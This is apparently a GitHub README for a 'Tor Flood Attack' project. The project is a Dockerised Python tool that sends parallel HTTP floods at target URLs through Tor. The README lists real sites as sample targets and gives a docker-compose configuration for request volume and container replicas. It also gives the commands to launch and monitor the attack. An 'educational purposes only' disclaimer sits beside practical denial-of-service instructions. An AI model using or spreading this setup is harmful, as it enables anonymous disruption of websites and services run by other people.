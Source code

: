# Tor Flood Attack 
This is an example of how we can orchestrate an HTTP flood attack. We provide a python script that launches parallel requests to target URLs while being covered by TOR proxy. We also provide a docker image wraped over this script, and a scalable docker-compose configuration. 

This project was designed and intended for educational purposes only. All examples and targets were selected randomly. Use this at yout own risk. This repository may be deleted at any time, please make local backups if needed accordingly.

# Prerequisites
Obviously you need to install [Docker](https://docs.docker.com/engine/install/) and [docker-compose](https://docs.docker.com/compose/install/). Have a good bandwidth, and preferably a good CPU as we rely heavily on parallel HTTP requests here. 

# Configuration
Before launching this I highly suggest you to get familiar with how things can be adjusted in this script.

### Targets
Target settings - all target URLs should be placed in `targets.txt`, please note that all of them are either "http" or "https":
```text
https://www.google.com/
https://yandex.ru/
```

### Performance
All performance settings are located in `docker-compose.yml`:
```yaml
version: "3.9"
services:
  app:
    build:
      context: .
      dockerfile: Dockerfile
    environment:
      # How many cycles (epochs) of attacks should be performed
      # This value can be ignored, you can control the attack by stopping docker-compose at any time
      NUMBER_OF_EPOCHS: 40

      # How many URLs from your list will be attacked in parallel
      PARALLEL_LIST_OF_URLS_WORKERS: 2

      # Min/max values that determine how many requests can be simultaneously sent to a single URL
      PARALLEL_SINGLE_URL_MIN_REQUESTS: 150
      PARALLEL_SINGLE_URL_MAX_REQUESTS: 700

      # How many requests on the same URL will be processed in parallel
      PARALLEL_SINGLE_URL_WORKERS: 50

      # Should we use tor? (0 - no, 1 - yes)
      # The default values is 1, and we will print out warnings if you disable it
      # Use at your own risk, only if you know what you're doing
      ENABLE_TOR: 1
    deploy:
      # How scaled this attack is, how many replicas of this container should be deployed
      replicas: 12
      restart_policy:
        condition: any
``` 

This setup has a potential to really warn up your hardware, please lower the settings if you're not sure what stress your PC can handle. For a modest PC it'll look like this:
```yaml
...
NUMBER_OF_EPOCHS: 10
PARALLEL_LIST_OF_URLS_WORKERS: 1
PARALLEL_SINGLE_URL_MIN_REQUESTS: 20
PARALLEL_SINGLE_URL_MAX_REQUESTS: 100
PARALLEL_SINGLE_URL_WORKERS: 10
ENABLE_TOR: 1
...
replicas: 3
...
```

# Running
Launching this script is fairly straight forward - just run docker-compose

Start the containers with scripts via:
```shell script
docker-compose up --build -d
```

Connect to logs to monitor what's going on inside your containers:
```shell script
docker-compose logs -f -t
```

To stop and kill all containers:
```shell script
docker-compose down
```

